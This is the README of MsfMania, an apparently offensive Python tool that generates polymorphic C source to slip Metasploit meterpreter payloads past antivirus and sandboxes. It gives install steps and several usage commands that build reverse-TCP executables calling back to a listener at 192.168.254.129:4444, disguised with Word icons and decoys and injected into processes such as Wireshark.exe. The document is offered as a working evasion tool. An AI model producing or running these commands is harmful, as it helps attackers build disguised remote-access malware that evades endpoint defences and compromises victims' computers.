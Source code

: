 # MsfMania

MsfMania is a command line tool developed in Python, allowing to automatically produce a source code in C language that will be used to bypass antimalware before executing a metasploit payload.

## Version 2.1
New features:
```
1- New usage method
2- Perfomance increase
3- User interaction removed
4- Hardest loop usage removed
```

## Requirements
- Latest version of Kali Linux
- The kali-rolling repository
- Python3

## Installation
- Git clone this repository: ```git clone https://github.com/G1ft3dC0d3/MsfMania.git```
- cd into the MsfMania folder: ```cd MsfMania```
- Run MsfMania setup: ```python3 setup.py```

## Usage
```
python3 MsfMania.py -h
```
```
python3 MsfMania.py staged x64 windows/x64/meterpreter/reverse_tcp 192.168.254.129 4444 Malware local
```
```
python3 MsfMania.py staged x64 windows/x64/meterpreter/reverse_tcp 192.168.254.129 4444 Virus remote --procname Wireshark.exe --mscript --icon mco.ico
```
```
python3 MsfMania.py stageless x64 windows/x64/meterpreter_reverse_tcp 192.168.254.129 4444 Word remote --decoy 2000 --mscript --icon word.ico
```

## Features
- x86/x64 staged/stageless windows payload meterpreter/shell.
- Cross-compiler MinGW.
- Polymorphic C source code.
- Strip with MinGW.
- Rar compression.
- Executable customizable with an icon.
- Local/Remote Thread Shellcode Injection
- Sandbox/Antivirus Evasion
